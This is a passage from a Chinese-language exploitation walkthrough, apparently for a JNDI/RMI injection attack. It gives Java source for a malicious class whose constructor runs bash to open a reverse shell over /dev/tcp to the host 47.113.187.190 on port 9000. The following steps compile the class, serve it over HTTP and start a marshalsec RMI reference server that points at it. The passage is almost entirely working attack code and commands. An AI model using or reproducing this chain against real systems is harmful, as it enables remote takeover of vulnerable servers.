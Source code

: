     <span data-type="text" style="color: var(--b3-font-color9);">坑：文件里public class GetShell的类名应该与文件名一致。否则编译时候会报错。</span>

    ```python
    import java.io.BufferedReader; 
    import java.io.InputStream; 
    import java.io.InputStreamReader;
     public class GetShell1{ 
    public GetShell1() throws Exception { 
    Process p = Runtime.getRuntime().exec(new String[]{
    "/bin/bash","-c","exec 5<>/dev/tcp/47.113.187.190/9000;cat <&5 | while read line; do $line 2>&5 >&5; done"
    });
     InputStream is = p.getInputStream();
    BufferedReader reader = new BufferedReader(new InputStreamReader(is)); 
    String line; while((line = reader.readLine()) != null) { 
    System.out.println(line); 
    } 
    p.waitFor(); 
    is.close(); 
    reader.close(); 
    p.destroy(); 
    } 
    public static void main(String[] args) throws Exception { 
    } 
    }
    ```

    2.2编译：   javac GetShell.java  ==>  GetShell.class

    ​![image](assets/image-20240922175657-ab654i4.png)​

    2.3   开启HTTP服务  这里我直接丢到之前我网站的web根目录下了，访问直接下载。

    ​![image](assets/image-20240922180028-m8evnbw.png)​

    也可以用  python -m http.server 90   在本机当前目录下开启。需要python环境。
3. ##### 开启RMI服务

    执行目录下需要有 <span data-type="text" style="color: var(--b3-font-color9);">marshalsec-0.0.3-SNAPSHOT-all.jar </span>，ip地址为第二步恶意类的http服务地址#后面跟上编译后的类名。  9000为RMI服务端口。

    ```python
    java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer "http://47.113.187.190:90/#GetShell" 9000
    ```
